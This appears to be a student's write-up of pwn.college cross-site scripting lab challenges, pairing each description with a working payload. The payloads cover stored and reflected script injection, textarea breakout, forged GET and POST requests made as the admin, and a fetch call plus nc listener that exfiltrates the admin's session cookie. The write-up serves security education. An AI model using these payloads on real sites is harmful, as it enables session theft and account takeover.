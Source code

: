 ```yaml
---
tags: ["Web Security", "XSS"]
title: "Cross Site Scripting"
description: Cross Site Scripting
reference: https://pwn.college/intro-to-cybersecurity/web-security/
---
```


# 1

## Description

Semantic gaps can occur (and lead to security issues) at the interface of any two technologies. So far, we have seen them happen between:

A web application and the file system, leading to path traversal.
A web application and the command line shell, leading to command injection.
A web application and the database, leading to SQL injection.
One part of the web application story that we have not yet looked at is the web browser. We will remedy that oversight with this challenge.

A modern web browser is an extraordinarily complex piece of software. It renders HTML, executes JavaScript, parses CSS, lets you access pwn.college, and much much more. Specifically important to our purposes is the HTML that you have seen being generated by every challenge in this module. When the web application generated paths, we ended up with path traversals. When the web application generated shell commands, we ended up with shell injections. When the web application generated SQL queries, we ended up with SQL injections. Do we really think HTML will fare any better? Of course not.

The class of vulnerabilities in which injections occur into client-side web data (such as HTML) is called Cross Site Scripting, or XSS for short (to avoid the name collision with Cascading Style Sheets). Unlike the previous injections, where the victim was the web server itself, the victims of XSS are other users of the web application. In a typical XSS exploit, an attacker will cause their own code to be injected into (typically) the HTML produced by a web application and viewed by a victim user. This will then allow the attacker to gain some control within the victim's browser, leading to a number of potential downstream shenanigans.

This challenge is a very first step in this direction. As before, you will have the /challenge/server web server. This challenge explores something called Stored XSS, which means that data that you store on the server (in this case, posts in a forum) will end up being shown to a victim user. Thus, we need a victim to view these posts! You will now have a /challenge/victim program that simulates a victim user visiting the web server.

Set up your attack and invoke /challenge/victim with the URL that will trigger the Stored XSS. In this level, all you have to do is inject a textbox. If our victim script sees three textboxes, we will give you the flag!

DEBUGGING: How do you debug these sorts of attacks? The most common thing to go wrong in this simple scenario is that the resulting post-injection HTML is invalid. Here, the View Source functionality of your browser can help. You can either try launching your attack against the web browser in the DOJO's GUI Desktop (e.g., set up the XSS, then visit with the DOJO's Firefox rather than with /challenge/victim), and View Source, or just use curl and read the result. The result, after you inject your payload, should still be valid (but newly-evil) HTML!

## Solution

POST HTTP Request with:

```
content	"<input>"
```

---

# 2

## Description

Okay, so injecting some HTML was pretty cool! You can imagine how this can be used to confuse victims, but it gets worse...

In the 1990s, the wise designers of the web invented JavaScript to make websites more interactive. JavaScript lives alongside your HTML, and makes things interesting. For example, this turns your browser into a clock:

```
<html>
  <body>
    <script>
      document.body.innerHTML = Date();
    </script>
  </body>
</html>
```

Basically, the HTML <script> tag tells the browser that what is inside that tag is JavaScript, and the browser executes it. I'm sure you can see where this is going...

In the previous level, you injected HTML. In this one, you must use the exact same Stored XSS vulnerability to execute some JavaScript in the victim's browser. Specifically, we want you to execute the JavaScript alert("PWNED") to pop up an alert that informs the victim that they've been pwned. The how of this level is the exact same as the previous one; only the what changes, and suddenly, you're cooking with gas!

DEBUGGING: Here, we need a slightly more advanced approach to debugging. Two main things can go wrong here.

First, you might not be injecting your <script> tag properly. You should check this similar to the debugging path of the previous challenge: bring it up in Firefox and View Source or Inspect Element to make sure it looks correct.
Second, your actual JavaScript might be buggy. JavaScript errors will show up on your Firefox console. Pull up the web development console in the DOJO's Firefox, load the page, and see if anything has gone wrong! If it hasn't, consider resorting to print-debugging inside JavaScript (you can print to the console with, e.g., console.log("wtf").

## Solution

POST:

```
<script>alert("PWNED");</script>
```

---

# 3

## Description

In the previous examples, your injection content was first stored in the database (as posts), and was triggered when the web server retrieved it from the database and sent it to the victim's browser. Because the data has to be stored first and retrieved later, this is called a Stored XSS. However, the magic of HTTP GET requests and their URL parameters opens the door to another type of XSS: Reflected XSS.

Reflected XSS happens when a URL parameter is rendered into a generated HTML page in a way that, again, allows the attacker to insert HTML/JavaScript/etc. To carry out such an attack, an attacker typically needs to trick the victim into visiting a very specifically-crafted URL with the right URL parameters. This is unlike a Stored XSS, where an attacker might be able to simply make a post in a vulnerable forum and wait for victims to stumble onto it.

Anyways, this level is a Reflected XSS vulnerability. The /challenge/victim of this challenge takes a URL argument on the commandline, and it will visit that URL. Fool the /challenge/victim into making a JavaScript alert("PWNED"), and you'll get the flag!

## Solution

```
hacker@web-security~xss-3:/challenge$ ./victim "http://challenge.localhost/?msg=<script>alert('PWNED');</script>"
```

---

# 4

## Description

Like with SQL injection and command injection, sometimes your XSS occurs in the middle of some non-optimal context. In SQL, you have dealt with injecting into the middle of quotes. In XSS, you often inject into, for example, a textarea, as in this challenge. Normally, text in a textarea is just, well, text that'll show up in a textbox on the page. Can you bust out of this context and alert("PWNED")?

As before, the /challenge/victim of this challenge takes a URL argument on the commandline, and it will visit that URL.

## Solution

```
hacker@web-security~xss-4:/challenge$ ./victim "http://challenge.localhost/?msg=</textarea>%0D%0A<script>alert("PWNED")</script>%0D%0A<textarea>"
```

---

# 5

## Description

Actual XSS exploits try to achieve something more than alert("PWNED"). A very common goal is to use the ability to execute JavaScript inside a victim's browser to initiate new HTTP requests masquerading as the victim. This can be done in a number of ways, including using JavaScript's fetch() function.

This challenge implements a more complex application, and you will need to retrieve the flag out of the admin user's unpublished draft post. After XSS-injecting the admin, you must use the injection to make an HTTP request (as the admin user) to enable you to read the flag. Good luck!

DEBUGGING: This level adds an additional bit of complexity to the injected script: the fetch(). Now, three things can go wrong:

The <script> HTML injection. Again, verify that using View Source or Inspect Element in the DOJO's Firefox. Log in as guest (or modify the script so that you can log in as admin in practice mode) and play around graphically.
The JavaScript itself. Verify this by checking Firefox's JavaScript console for errors and by using print-debugging (to the Firefox console by doing console.log).
The GET request that you'll trigger using fetch() or whatnot. You can, again, debug this in Firefox by looking at the Network tab of the Web Developer Tools. Have the tab open, trigger your attack, and see what's happening with the actual request.

## Solution

Publish post with message:

```
<script>
fetch("http://challenge.localhost/publish");
</script>
```

---

# 6

## Description

Once an attacker has code execution inside a victim's browser, they can do a lot of things. You've made a GET request in your previous attack, but typically, it's the POST requests that will change application state. This challenge ratchets up the realism: the /publish now needs a POST request. Luckily, fetch supports this!

Go figure out how to POST, and get the flag.

## Solution

Publish post with message:

```
<script>
fetch("http://challenge.localhost/publish", {method: "POST"});
</script>
```

---

# 7

## Description

Depending on the attacker's goals, what they might actually be after is the victim's entire account. For example, attackers might use XSS to exfiltrate victim authentication data and then use this data to take over the victim's account.

Authentication data is often stored via browser cookies, such as what happened in Authentication Bypass 2 (but, typically, much more secure). If an attacker can leak these cookies, the result can be disastrous for the victim.

This level stores the authentication data for the logged in user in a cookie. You must use XSS to leak this cookie so that you can, in turn, use it in a request to impersonate the admin user. This exfiltration will happen over HTTP to a server that you run, and everything you need is available via JavaScript's fetch() and its ability to access (some) site cookies.


## Solution

![](assets/xss_7_attack.png)


1. `fetch` call injection to html file

```js
<script>
fetch("http://127.0.0.1:8888/", {
  method: "GET",
  credentials: "include", 
  mode: "cors"           
});
</script>
```

2. run tcp server to capture http request on port 8888

```
hacker@web-security~xss-7:~$ nc -lv 127.0.0.1 8888
Listening on localhost 8888
Connection received on localhost 54162
GET / HTTP/1.1
Host: challenge.localhost:8888
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: http://challenge.localhost/
Origin: http://challenge.localhost
Connection: keep-alive
Cookie: auth=admin|.QXygTN2wCM0YjMyEzW}
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Priority: u=4
```


